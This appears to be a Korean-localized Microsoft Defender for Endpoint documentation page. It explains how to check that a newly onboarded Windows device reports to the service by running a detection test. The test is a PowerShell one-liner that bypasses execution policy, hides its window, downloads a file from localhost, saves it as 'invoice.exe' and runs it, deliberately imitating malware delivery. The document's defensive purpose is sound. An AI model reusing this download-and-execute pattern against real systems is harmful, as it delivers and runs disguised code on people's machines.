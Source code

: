 ```yaml
---
title: 새로 온보딩된 Microsoft Defender ATP 장치에서 검색 테스트 실행
description: 새로 온보딩된 장치에서 검색 스크립트를 실행하여 Microsoft Defender ATP 서비스에 올바르게 온보딩되었는지 확인합니다.
keywords: 검색 테스트, 감지, powershell, 스크립트, 확인, 온보딩, 끝점 온보딩에 대한 Microsoft Defender, 클라이언트, 서버, 테스트
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 10154a734bb4c3d8b26fffb8618484aeb11f907a
ms.sourcegitcommit: 956176ed7c8b8427fdc655abcd1709d86da9447e
ms.translationtype: MT
ms.contentlocale: ko-KR
ms.lasthandoff: 03/23/2021
ms.locfileid: "51074132"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="d3f2b-104">새로 온보딩된 엔드포인트 디바이스용 Microsoft Defender에서 검색 테스트 실행</span><span class="sxs-lookup"><span data-stu-id="d3f2b-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="d3f2b-105">**적용 대상:**</span><span class="sxs-lookup"><span data-stu-id="d3f2b-105">**Applies to:**</span></span>
- <span data-ttu-id="d3f2b-106">지원되는 Windows 10 버전</span><span class="sxs-lookup"><span data-stu-id="d3f2b-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="d3f2b-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="d3f2b-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="d3f2b-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="d3f2b-108">Windows Server 2016</span></span>
- <span data-ttu-id="d3f2b-109">Windows Server, 버전 1803</span><span class="sxs-lookup"><span data-stu-id="d3f2b-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="d3f2b-110">Windows Server, 2019</span><span class="sxs-lookup"><span data-stu-id="d3f2b-110">Windows Server, 2019</span></span>
- [<span data-ttu-id="d3f2b-111">엔드포인트용 Microsoft Defender</span><span class="sxs-lookup"><span data-stu-id="d3f2b-111">Microsoft Defender for Endpoint</span></span>](https://go.microsoft.com/fwlink/?linkid=2154037)
- [<span data-ttu-id="d3f2b-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="d3f2b-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="d3f2b-113">끝점용 Microsoft Defender를 경험하고 싶나요?</span><span class="sxs-lookup"><span data-stu-id="d3f2b-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="d3f2b-114">무료 평가판에 등록합니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="d3f2b-115">새로 온보딩된 장치에서 다음 PowerShell 스크립트를 실행하여 끝점용 Defender 서비스에 올바르게 보고하고 있는지 확인합니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="d3f2b-116">폴더 만들기: 'C:\test-MDATP-test'.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="d3f2b-117">디바이스에서 상승된 명령줄 프롬프트를 열고 스크립트를 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="d3f2b-118">**시작**(으)로 이동하고 **cmd** 를 입력하십시오.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="d3f2b-119">명령 **프롬프트를 마우스 오른쪽 단추로 클릭하고** **관리자 권한으로 실행을 선택합니다.**</span><span class="sxs-lookup"><span data-stu-id="d3f2b-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![관리자 권한으로 실행을 설정하는 창 시작 메뉴](images/run-as-admin.png)

3. <span data-ttu-id="d3f2b-121">프롬프트에서 다음 명령을 복사하여 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="d3f2b-122">명령 프롬프트 창이 자동으로 닫히게 됩니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="d3f2b-123">성공하면 검색 테스트가 완료된 것으로 표시하고 약 10분 후 온보드 장치에 대한 새 경고가 포털에 표시됩니다.</span><span class="sxs-lookup"><span data-stu-id="d3f2b-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="d3f2b-124">관련 항목</span><span class="sxs-lookup"><span data-stu-id="d3f2b-124">Related topics</span></span>
- [<span data-ttu-id="d3f2b-125">Windows 10 장치 온보드</span><span class="sxs-lookup"><span data-stu-id="d3f2b-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="d3f2b-126">서버 온보드</span><span class="sxs-lookup"><span data-stu-id="d3f2b-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="d3f2b-127">끝점 온보딩 문제에 대한 Microsoft Defender 문제 해결</span><span class="sxs-lookup"><span data-stu-id="d3f2b-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](https://docs.microsoft.com/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
